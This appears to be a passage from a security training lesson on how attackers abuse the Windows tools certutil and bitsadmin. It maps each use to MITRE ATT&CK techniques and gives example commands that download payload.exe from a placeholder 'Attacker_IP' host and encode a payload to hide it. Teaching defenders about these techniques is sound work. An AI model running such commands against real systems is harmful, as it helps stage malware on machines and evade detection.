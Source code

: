 Certutil is a Windows built-in utility for handling certification services. It  is used to dump and display Certification Authority (CA) configuration  information and other CA components. Therefore, the tool's normal use is to retrieve certificate information. However, people found that  certutil.exe could transfer and encode files unrelated to certification  services. The MITRE ATT&CK framework identifies this technique as **Ingress tool transfer** ([T1105](https://attack.mitre.org/techniques/T1105/)).

To illustrate this with an example, we can use certutil.exe to download a file from an attacker's web server and store it in the Window's temporary folder, using the command below. Note that we use the-urlcache and -split -f parameters to enforce the tool to download from the provided URL using the split technique.

- **Command Prompt**

```shell-session
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

`-urlcache` to display URL, enables the URL option to use in the command
`-split -f` to split and force fetching files from the provided URL.

Also, the certutil.exe can be used as an encoding tool where we can encode files and decode the content of files. ATT&CK [T1027](https://attack.mitre.org/techniques/T1027/) refers to this technique to obfuscate files to make them difficult to discover or analyze.

- **Command Prompt**

```shell-session
C:\Users\thm> certutil -encode payload.exe Encoded-payload.txt
```

For more information about the tool, you may visit the Microsoft Document here: [Microsoft Docs: CertUtil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

### BITSAdmin

The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS ](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

Attackers may abuse the BITS jobs to download and execute a malicious payload in a compromised machine. For more information about this technique, you may visit the ATT&CK [T1197](https://attack.mitre.org/techniques/T1197/) page.

Introduce the terminal container content (revisit)

- **Command Prompt**

```shell-session
C:\Users\thm>bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe	    
```

`/Transfer` to use the transfer option
`/Download` we are specifying transfer using download type
`/Priority` we are setting the priority of the job to be running in the foreground
